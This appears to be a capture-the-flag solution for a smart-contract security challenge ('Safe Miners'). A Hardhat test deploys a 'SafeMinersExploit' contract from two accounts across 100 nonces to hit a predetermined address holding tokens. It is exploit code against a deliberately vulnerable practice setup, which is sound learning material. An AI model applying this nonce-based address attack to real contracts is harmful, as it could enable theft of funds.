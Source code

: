 Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        // Disable timeouts, this is gonna take a while
        this.timeout(0)

        // Try 100 nonces of both EOA accounts
        for (let nonce = 0; nonce < 100; nonce++) {
            await (await ethers.getContractFactory('SafeMinersExploit', deployer))
                .deploy(attacker.address, this.token.address, 100);
            await (await ethers.getContractFactory('SafeMinersExploit', attacker))
                .deploy(attacker.address, this.token.address, 100);
        }
    });
```

